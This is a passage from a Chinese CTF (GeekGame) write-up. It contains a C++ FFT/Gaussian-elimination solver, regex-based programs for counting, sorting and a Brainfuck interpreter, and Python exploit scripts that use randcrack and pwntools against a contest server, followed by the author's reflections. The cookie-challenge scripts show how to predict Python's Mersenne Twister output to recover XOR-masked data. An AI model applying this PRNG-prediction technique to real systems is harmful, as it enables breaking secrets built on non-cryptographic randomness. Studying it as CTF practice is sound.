	for (int i = 0; i < n; ++i)
		c[i] = a[i] * b % mod;
	return c;
}
void FFT (VI *elem) {
	int p = 128;
	while (p > 1) {
		p /= 2;
		for (int i = 0; i < 128; i += 2 * p) {
			for (int j = 0; j < p; ++j) {
				VI v6 = elem[i + j], v7 = elem[i + j + p];
				elem[i + j] = v6 + v7;
				elem[i + j + p] = (v6 - v7) * w[j + p];
			}
		}
	}
}
void FFT (int *elem) {
	int p = 128;
	while (p > 1) {
		p /= 2;
		for (int i = 0; i < 128; i += 2 * p) {
			for (int j = 0; j < p; ++j) {
				int v6 = elem[i + j], v7 = elem[i + j + p];
				elem[i + j] = (v6 + v7) % mod;
				elem[i + j + p] = (LL)(v6 + mod - v7) * w[j + p] % mod;
			}
		}
	}
}
void IFFT (VI *elem) {
	for (int i = 1; i < 128; i *= 2) {
		for (int j = 0; j < 128; j += i * 2) {
			for (int k = 0; k < i; ++k) {
				VI v6 = elem[j + k], v7 = elem[i + j + k] * w[i + k];
				elem[j + k] = v6 + v7;
				elem[i + j + k] = v6 - v7;
			}
		}
	}
	reverse (elem + 1, elem + 128);
	LL tmp = mod - (mod - 1) / 128;
	for (int i = 0; i < 128; ++i)
		elem[i] = elem[i] * tmp;
}
const int ans[64] = {0x2F6A, 0x5A72, 0x82BB, 0x0AB28, 0x0E0BA, 0x10431, 0x12D48, 0x13BA4, 0x1680F, 0x19B4C, 0x1A7C3, 0x1CF0C, 0x20372, 0x22B61, 0x21699, 0x25383, 0x26220, 0x2937A, 0x2ABFB, 0x2DC98, 0x2D6B3, 0x31C9D, 0x34098, 0x34EBC, 0x36C65, 0x3A27D, 0x3C317, 0x3DC21, 0x42900, 0x42A20, 0x46CA4, 0x47612, 0x49A6E, 0x4B259, 0x50845, 0x50666, 0x545CE, 0x55420, 0x5A3DE, 0x5C550, 0x5B2E2, 0x596FC, 0x59395, 0x5A07C, 0x57CF8, 0x57E0A, 0x57CBD, 0x5ADF7, 0x56512, 0x5872F, 0x58E27, 0x5AD27, 0x5936F, 0x594E2, 0x599BD, 0x5AA89, 0x5991C, 0x579AC, 0x573B4, 0x57A8B, 0x5A9EE, 0x58ACC, 0x5ABA2, 0x5B498}, zhesha[34] = {0x77, 0x65, 0x6C, 0x63, 0x6F, 0x6D, 0x65, 0x20, 0x74, 0x6F, 0x20, 0x74, 0x68, 0x65, 0x20, 0x77, 0x6F, 0x72, 0x6C, 0x64, 0x20, 0x6F, 0x66, 0x20, 0x70, 0x6F, 0x6C, 0x79, 0x6E, 0x6F, 0x6D, 0x69, 0x61, 0x6C};
int A[64][41]; // equations.
void Gauss () {
	for (int i = 0; i < 40; ++i) {
		if (!A[i][i]) {
			for (int j = i + 1; j < 64; ++j) if (A[j][i]) {
				swap (A[i], A[j]); break;
			}
		}
		assert (A[i][i]);
		int inv = ksm (A[i][i], mod - 2);
		for (int j = i; j < 41; ++j)
			A[i][j] = (LL)A[i][j] * inv % mod;
		for (int j = 0; j < 64; ++j) if (j != i) {
			int tmp = mod - A[j][i];
			for (int k = i; k < 41; ++k)
				A[j][k] = (A[j][k] + (LL)tmp * A[i][k]) % mod;
		}
	}
}
int main (){
	init ();
	for (int i = 0; i < 128; ++i) elem[i].resize (40);
	for (int i = 0; i < 40; ++i) elem[i][i] = 1;
	for (int i = 0; i < 64; ++i) elem2[i] = zhesha[i % 34];
	FFT (elem); FFT (elem2);
	for (int i = 0; i < 128; ++i) elem[i] = elem[i] * elem2[i];
	IFFT (elem);
	for (int i = 0; i < 64; ++i) {
		A[i][40] = ans[i];
		for (int j = 0; j < 40; ++j)
			A[i][j] = elem[i][j];
	}
	Gauss ();
	for (int i = 0; i < 40; ++i) putchar (A[i][40]);
	putchar ('\n');
}
```

# 0x11. 关键词过滤喵，谢谢喵

不懂就问, `haruhikage.txt` 真是春日影歌词吗? 歌词确实是不错的测试数据喵, 若果真如此喵喵会很高兴的喵（x

## 字数统计喵

在文件开头放一个计数器, 每次吃掉一个字符然后给计数器加 1 就可以了喵!

```py
把【^】替换成【0😡】喵

什么喵：

把【0😡(.|\s)】替换成【1😡】喵
把【1😡(.|\s)】替换成【2😡】喵
把【2😡(.|\s)】替换成【3😡】喵
把【3😡(.|\s)】替换成【4😡】喵
把【4😡(.|\s)】替换成【5😡】喵
把【5😡(.|\s)】替换成【6😡】喵
把【6😡(.|\s)】替换成【7😡】喵
把【7😡(.|\s)】替换成【8😡】喵
把【8😡(.|\s)】替换成【9😡】喵
把【9😡(.|\s)】替换成【😈0😡】喵

把【^😈】替换成【1】喵
把【0😈】替换成【1】喵
把【1😈】替换成【2】喵
把【2😈】替换成【3】喵
把【3😈】替换成【4】喵
把【4😈】替换成【5】喵
把【5😈】替换成【6】喵
把【6😈】替换成【7】喵
把【7😈】替换成【8】喵
把【8😈】替换成【9】喵
把【9😈】替换成【😈0】喵

如果看到【😡(.|\s)】就跳转到【什么喵】喵

把【😡】替换成【】喵
谢谢喵
```

## 排序喵

呜呜笨蛋喵喵在 ~~fuck brain~~ 的时候手残把排序代码覆盖掉了喵, 果咩捏我现在就来重写一个喵 qwq

大概就是先把空行删掉, 开头放个 emoji 表示之前是排好序的行, 之后是待排序的; 并且每行开头放一个 emoji 表示指针喵! 每次把这个指针向后移动一位, 如果移动到尽头就把这行交换到开头喵!

```py
把【^】替换成【😭\n】喵
把【$】替换成【\n】喵
把【\n+】替换成【\n】喵
把【\n】替换成【\n😡】喵
把【😡$】替换成【】喵

开头喵：
  把【😡([^\n])】替换成【\1😡】喵
  循环喵：
    把【\n([^\n😭]+)\n([^\n😡]+)😡\n】替换成【\n\2😡\n\1\n】喵
    把【😭\n([^\n😡]+)😡\n】替换成【\1\n😭\n】喵
    如果看到【😡\n】就跳转到【循环喵】喵
  如果看到【😡】就跳转到【开头喵】喵

把【\n*😭(.|\s)+$】替换成【】喵
谢谢喵
```

## Brainfuck 喵

代码很长但其实更为简单喵! 在字符串里开辟两段内存分别记录 Memory Cell 和循环嵌套的层数, 再来一个 emoji 作为程序计数器, 最后分别实现每个命令就好了喵!

出题人是懂的喵! 写完这个模拟我说话就全是喵了喵 :)

```py
把【[^><+\-.,[\]]】替换成【】喵
把【^】替换成【 0👼 😡😈🤔】喵
把【$】替换成【😭】喵

开头喵：
  如果看到【🤔\+】就跳转到【加号喵】喵
  如果看到【🤔-】就跳转到【减号喵】喵
  如果看到【🤔\[】就跳转到【左括号喵】喵
  如果看到【🤔\]】就跳转到【右括号喵】喵
  如果看到【🤔<】就跳转到【左移喵】喵
  如果看到【🤔>】就跳转到【右移喵】喵
  如果看到【🤔\.】就跳转到【输出喵】喵
  如果看到【^】就跳转到【结束喵】喵

加号喵：
  把【👼】替换成【👼喵】喵
  把【0👼喵】替换成【1👼】喵
  把【1👼喵】替换成【2👼】喵
  把【2👼喵】替换成【3👼】喵
  把【3👼喵】替换成【4👼】喵
  把【4👼喵】替换成【5👼】喵
  把【5👼喵】替换成【6👼】喵
  把【6👼喵】替换成【7👼】喵
  把【7👼喵】替换成【8👼】喵
  把【8👼喵】替换成【9👼】喵
  把【9👼喵】替换成【😫0👼】喵

  进位喵：
    把【 😫】替换成【 1】喵
    把【0😫】替换成【1】喵
    把【1😫】替换成【2】喵
    把【2😫】替换成【3】喵
    把【3😫】替换成【4】喵
    把【4😫】替换成【5】喵
    把【5😫】替换成【6】喵
    把【6😫】替换成【7】喵
    把【7😫】替换成【8】喵
    把【8😫】替换成【9】喵
    把【9😫】替换成【😫0】喵

    如果看到【😫0】就跳转到【进位喵】喵

  把【🤔\+】替换成【+🤔】喵
  如果看到【^】就跳转到【开头喵】喵

减号喵：
  把【👼】替换成【👼喵】喵
  把【0👼喵】替换成【😫9👼】喵
  把【1👼喵】替换成【0👼】喵
  把【2👼喵】替换成【1👼】喵
  把【3👼喵】替换成【2👼】喵
  把【4👼喵】替换成【3👼】喵
  把【5👼喵】替换成【4👼】喵
  把【6👼喵】替换成【5👼】喵
  把【7👼喵】替换成【6👼】喵
  把【8👼喵】替换成【7👼】喵
  把【9👼喵】替换成【8👼】喵

  退位喵：
    把【0😫】替换成【😫9】喵
    把【1😫】替换成【0】喵
    把【2😫】替换成【1】喵
    把【3😫】替换成【2】喵
    把【4😫】替换成【3】喵
    把【5😫】替换成【4】喵
    把【6😫】替换成【5】喵
    把【7😫】替换成【6】喵
    把【8😫】替换成【7】喵
    把【9😫】替换成【8】喵

    如果看到【😫9】就跳转到【退位喵】喵

  把【 0([0-9]+👼)】替换成【 \1】喵
  把【🤔-】替换成【-🤔】喵
  如果看到【^】就跳转到【开头喵】喵

右移喵：
  把【🤔>】替换成【>🤔】喵
  把【👼 】替换成【 👼】喵
  把【👼😡】替换成【0👼 😡】喵
  把【👼([0-9]+)】替换成【\1👼】喵
  如果看到【^】就跳转到【开头喵】喵

左移喵：
  把【🤔<】替换成【<🤔】喵
  把【( [0-9]+)👼】替换成【👼\1】喵
  把【^👼】替换成【 0👼】喵
  如果看到【^】就跳转到【开头喵】喵

左括号喵：
  如果看到【 0👼】就跳转到【退出循环喵】喵
  把【🤔\[】替换成【[🤔】喵
  如果看到【^】就跳转到【开头喵】喵
  退出循环喵：
    如果看到【🤔\[】就跳转到【Mygo】喵
    如果看到【🤔\]】就跳转到【Crychic】喵
    如果看到【🤔.】就跳转到【Soyo】喵
    Mygo：
      把【😈】替换成【[😈】喵
      如果看到【^】就跳转到【Soyo】喵
    Crychic：
      把【\[😈】替换成【😈】喵
    Soyo：
      把【🤔(.)】替换成【\1🤔】喵
      如果看到【😡😈】就跳转到【开头喵】喵
      如果看到【^】就跳转到【退出循环喵】喵

右括号喵：
  把【🤔\]】替换成【]🤔】喵
  如果看到【 0👼】就跳转到【开头喵】喵
  回退循环喵：
    如果看到【\[🤔】就跳转到【Myg0】喵
    如果看到【\]🤔】就跳转到【Crych1c】喵
    如果看到【.🤔】就跳转到【Soy0】喵
    Myg0：
      把【\]😈】替换成【😈】喵
      如果看到【^】就跳转到【Soy0】喵
    Crych1c：
      把【😈】替换成【]😈】喵
    Soy0：
      把【(.)🤔】替换成【🤔\1】喵
      如果看到【😡😈】就跳转到【开头喵】喵
      如果看到【^】就跳转到【回退循环喵】喵

输出喵：
  把【🤔\.】替换成【.🤔】喵
  如果看到【 32👼】就跳转到【Case32】喵
  如果看到【 33👼】就跳转到【Case33】喵
# 此处省略若干行
  如果看到【 122👼】就跳转到【Case122】喵
  如果看到【^】就跳转到【开头喵】喵
  Case32：
    把【$】替换成【 】喵
    如果看到【^】就跳转到【开头喵】喵
  Case33：
    把【$】替换成【!】喵
    如果看到【^】就跳转到【开头喵】喵
# 此处省略若干行
  Case122：
    把【$】替换成【z】喵
    如果看到【^】就跳转到【开头喵】喵

结束喵：
  把【^(.|\s)*😭】替换成【】喵
  谢谢喵
```

# 0x14. 小章鱼的曲奇

## Smol Cookie

题目要求预测 python 的 Random 库的输出, 搜索到 `randcrack` 库, 直接调用即可.

```py
from Crypto.Util.number import *
from pwn import *
from ast import literal_eval
from subprocess import getoutput
from randcrack import RandCrack
from random import Random

def xor_arrays(a, b, *args):
    if args:
        return xor_arrays(a, xor_arrays(b, *args))
    return bytes([x ^ y for x, y in zip(a, b)])

rc = RandCrack()
str = "<string from server>"

flag_len = (len (str) - 5000) // 2
words = bytes.fromhex (str)

for i in range (624):
    rc.submit (int.from_bytes (words[i*4:i*4+4], byteorder = 'little'))
assert int.from_bytes (words[2496:2500], byteorder = 'little') == rc.predict_getrandbits (32)
print (xor_arrays (rc.predict_getrandbits (flag_len * 8).to_bytes (flag_len, byteorder = 'little'), words[2500:]))
```

## Big Cookie

搜索 python 的 [random 库实现](https://github.com/python/cpython/blob/main/Modules/_randommodule.c#L287), 发现它会先对种子取绝对值, 所以互为相反数的种子等价, 异或之后抵消, 剩下部分与 flag1 相同.

## SUPA BIG Cookie

相同的种子给出相同输出, 复读一遍就好了.

```py
from Crypto.Util.number import *
from pwn import *
from ast import literal_eval
from subprocess import getoutput
from randcrack import RandCrack
from random import Random

r = remote ('prob08.geekgame.pku.edu.cn', 10008)
r.recvuntil (b'token: ')
r.sendline (b'70:This_is_token')
r.sendlineafter (b'Choose one: ', b'3')
r.recvuntil (b'.\n')
words = r.recvline ().strip ()
r.sendline (words[1:-1])
r.interactive ()
```

# 0xFE. 简单的感想



> 等一下, 不要走! 不是这样的! 我是真的很珍视 GeekGame, 很喜欢 GeekGame!  
> 不要! 求求你! 要是没有大一萌新能做的题的话, 我就...  
> *...放开我*  
> 要我怎么做你们才肯出萌新题? 只要是我能学的, 我什么都愿意学!  
> *...你是抱着多大的觉悟说出这种话的? 你只不过是一个计网都没学过的彩笔, 有办法做出 GeekGame 的 Web 题吗?"什么都愿意学"就是这么沉重的话, 做不来的事就别随便说出口!*  
> 可是, 我真的...  
> ~~*亲很注重自己的内心感受呢 :)*~~

# 0xFF. 冷酷的感想

今年的 GeekGame 是我参加的第一场 CTF 比赛, ~~大概很可能也是最后一场.~~

实际上我是最近才了解到 CTF 大概是怎么回事. 以前虽久仰大名, 但限于知识水平, 每次都被庞大的知识量劝退. 上大学后总算是学过一点计算机基础知识, 看到年级群里的宣传就去学习了一下, 发现终于有能做的题了~~感动喵~~.

现在感觉 CTF 确实比算法竞赛有意思多了, 原因在于我个人比起直接做出巧妙的思维题, 更喜欢学习前人已有的方法, 再将其应用到现在的问题中. 而 CTF 内容的繁杂正好满足了我学习新知识的需求. 于是我紧急用国庆假期加训了各种基础知识, 以及 ida 和 pwntools 的用法.

这场比赛里我最喜欢的题 ~~(当然只能在我过的题里选 qwq)~~ 就是 TypeScript 题了, 原因是这种题目背景很像我以前做过的各种**交互题**——即通过给定的交互方式 (指运行代码) 拿到隐含信息 (指 flag), 而且我前几天刷往年题 (指去年 Hackergame) 做到了 "LaTeX 机器人" 这题, 我凭借天天用 LaTeX 写作业的经验把这题秒了. 所以当我看到 TypeScript 这题的时候就想直接开做, 但问题是我~~tm~~对前端语言一窍不通, 连 html 都不了解更别说 JS 甚至 TS 了. 我只能从头开始学习 TS 的语法和各种语言特性, 查阅能找到的所有 stackoverflow 帖子. 就这样过了毫无进展的一个上午, 我时常想要直接放弃但每次都被~~沉没的时间成本裹挟~~精妙的题目背景吸引. 最终我总共看了三十多个帖子, 不下十次的"你~~tm~~不会用枚举类型吗", 一个一个尝试是否对做题有帮助, 最后一篇就是上述题解里贴的链接. 当时我激动到什么类型推断都不管了直接开敲, 毕竟几百次询问只用十几分钟, 而“搜索到”三个字就用了 8 个小时. 这种"山重水复"后又"柳暗花明"的体验可是我在整个人生经历里都少有的.

后面我顺着这个劲头肝了一整场, 虽然很累但也非常开心! 最后取得这个成绩也是远远超出预期, ~~看来客服小祥的出题组真的出了很多萌新题 /bx~~

感谢各位出题人, Staff ~~A 和客服 S~~, 我在这几天真的收获很多! 虽然我明年应该没时间参加了, 但希望您们可以继续加油把比赛好好办下去, 再次感谢!